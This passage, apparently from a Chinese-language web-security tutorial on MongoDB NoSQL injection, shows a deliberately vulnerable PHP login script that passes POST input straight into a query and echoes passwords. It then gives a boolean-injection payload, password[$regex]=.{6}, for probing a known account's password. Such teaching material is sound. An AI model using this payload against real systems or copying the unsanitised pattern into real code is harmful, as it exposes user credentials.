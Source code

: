 我们发现其实就是通过闭合 然后就可以执行命令了

### 布尔注入

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb");
$username = $_POST['username'];
$password = $_POST['password'];
 
$query = new MongoDB\Driver\Query([
    'name' => $username,
    'password' => $password
]);
 
$result = $manager->executeQuery('test.admin', $query)->toArray();
$count = count($result);
 
if ($count > 0) {
    foreach ($result as $user) {
        $user = (array)$user;
        echo '==== Login Success ====<br>';
        echo 'Username: ' . $user['name'] . '<br>';
        echo 'Password: ' . $user['password'] . '<br>';
    }
} else {
    echo 'Login Failed';
}
?>
```

首先我们在已知账号的情况下可以

```cobol
password[$regex]=.{6}
```

通过正则匹配来获取

具体传入内容是

```php
{
    'name':'admin',
    'password':array([$regex]=>'.{6}')
 
}
 
这里是匹配任意6个字符
 
进入数据库后是 
 
db.admin.find({'name':'admin','password':{$regex:'.{6}'}})
```
